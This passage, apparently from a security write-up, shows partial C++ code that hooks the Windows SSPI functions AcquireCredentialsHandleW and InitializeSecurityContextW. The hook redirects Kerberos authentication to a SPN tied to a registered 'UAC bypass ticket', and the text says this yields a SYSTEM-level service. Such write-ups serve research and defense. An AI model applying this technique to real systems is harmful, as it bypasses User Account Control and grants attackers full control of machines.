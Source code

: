 ```c++
        printf("Changing to %ls package\n", pszPackage);
    }
    return AcquireCredentialsHandleW(pszPrincipal, pszPackage, fCredentialUse,
        pvLogonId, pAuthData, pGetKeyFn, pvGetKeyArgument, phCredential, ptsExpiry);
}

SECURITY_STATUS SEC_ENTRY InitializeSecurityContextWHook(
    _In_opt_    PCredHandle phCredential,               // Cred to base context
    _In_opt_    PCtxtHandle phContext,                  // Existing context (OPT)
    _In_opt_ SEC_WCHAR* pszTargetName,         // Name of target
    _In_        unsigned long fContextReq,              // Context Requirements
    _In_        unsigned long Reserved1,                // Reserved, MBZ
    _In_        unsigned long TargetDataRep,            // Data rep of target
    _In_opt_    PSecBufferDesc pInput,                  // Input Buffers
    _In_        unsigned long Reserved2,                // Reserved, MBZ
    _Inout_opt_ PCtxtHandle phNewContext,               // (out) New Context handle
    _Inout_opt_ PSecBufferDesc pOutput,                 // (inout) Output Buffers
    _Out_       unsigned long* pfContextAttr,  // (out) Context attrs
    _Out_opt_   PTimeStamp ptsExpiry                    // (out) Life span (OPT)
)
{
    // Change the SPN to match with the UAC bypass ticket you've registered.
    printf("InitializeSecurityContext called for target %ls\n", pszTargetName);
    SECURITY_STATUS status = InitializeSecurityContextW(phCredential, phContext, &spn[0], 
        fContextReq, Reserved1, TargetDataRep, pInput,
        Reserved2, phNewContext, pOutput, pfContextAttr, ptsExpiry);
    printf("InitializeSecurityContext status = %08X\n", status);
    return status;
}

// ...

int wmain(int argc, wchar_t** argv)
{
    // ...
    
    PSecurityFunctionTableW table = InitSecurityInterfaceW();
    table->AcquireCredentialsHandleW = AcquireCredentialsHandleWHook;
    table->InitializeSecurityContextW = InitializeSecurityContextWHook;
    
    // ...
}
```

Then, it creates a service and runs it with SYSTEM privileges. As shown in the image below, it successfully obtains SYSTEM privileges.
